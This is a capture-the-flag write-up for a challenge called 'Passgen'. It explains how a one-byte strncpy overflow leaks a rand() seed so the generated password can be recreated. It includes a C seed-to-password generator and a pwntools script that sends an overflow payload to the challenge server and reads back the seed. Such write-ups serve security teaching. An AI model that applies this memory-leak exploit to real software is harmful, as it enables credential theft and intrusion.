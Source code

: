 
# Passgen

In this challenge, our goal is to leak the seed and hence guess the password
the binary generated.

In IDA, we can see that the seed is located in bss. In addition, `session` and
`dest` are located above the seed in bss too. Our input to the binary is stored
in `dest`, while the generated password is stored in `session`.

We also have a one-byte overflow in `strncpy` when the binary reads in our
name. Using this, we can overwrite the null byte between `dest` and `seed`,
hence leaking the seed. Then, we can use the seed to initialize `rand()` and
generate the same password as was generated in the binary.

```c
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv) {
  char v4[88];
  char out[33];
  int seed = atoi(argv[1]);
  srand(seed);
  strcpy(v4, "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#" "$%^&*()-_=+[]{};:,.<>?");
  for (int i = 0; i < 32; ++i) {
    out[i] = v4[rand() % 87];
  }
    out[32] = 0;
    puts(out);
}
```

```py
from pwn import *
import os

exe = ELF("./passgen_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe

def conn():
    if args.LOCAL:
        p = process([exe.path])
        if args.GDB:
            gdb.attach(p)
            pause()
    else:
        p = remote("chals.f.cyberthon23.ctf.sg", 43050)

    return p


def main():
    p = conn()

    # good luck pwning :)
    payload = b"a"*257
    p.sendline(payload)
    p.recvuntil(b"a"*256)
    seed = u64(p.recvline().strip().ljust(8, b"\x00"))
    print(seed)
```